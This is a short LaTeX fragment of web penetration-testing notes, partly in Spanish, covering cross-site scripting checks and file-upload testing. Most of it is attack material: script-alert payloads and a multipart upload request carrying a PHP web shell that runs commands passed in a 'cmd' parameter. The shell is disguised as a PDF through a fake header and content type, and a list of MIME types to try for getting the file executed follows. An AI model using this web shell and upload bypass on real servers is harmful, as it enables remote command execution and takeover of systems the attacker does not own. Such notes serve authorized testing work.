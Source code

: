 \section{Cross Site Scripting Validation}

\begin{lstlisting}[numbers=none]
<script>javascript:alert(1)</script>
\end{lstlisting}

\section{File upload feature check: Webshell upload test}

Download Dummy PDF: 
\url{https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf}

Dummy PNG file from browser: 
	\url{https://png.pngitem.com/pimgs/s/185-1850003_sample-png-transparent-png.png}

\begin{lstlisting}[numbers=none]
https://github.com/TheBinitGhimire/Web-Shells
\end{lstlisting}

\begin{lstlisting}[numbers=none]
Content-Disposition: form-data; name="file"; filename="documento.php"
Content-Type: application/pdf

text/x-php

\%PDF-1.7
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<p>This is an example of webshell to execute commands in remote server:</p>
<pre>
<?php
   if(isset($_GET['cmd']))
   {
       system($_GET['cmd']);
   }
?>
<script>javacript:alert('XSS PAYLOAD')</script>
</pre>
</body>
</html>
\%\%EOF
\end{lstlisting}


\begin{lstlisting}[numbers=none]
	<script>javascript:alert("Hacked pronto seras redireccionado...")</script>
\end{lstlisting}

Change de MimeType to render.

\begin{lstlisting}[numbers=none]

Content-Type: application/x-php

text/x-php
text/html
text/plain
text/x-php
application/x-php
application/x-httpd-php
application/x-httpd-php-source

\end{lstlisting}


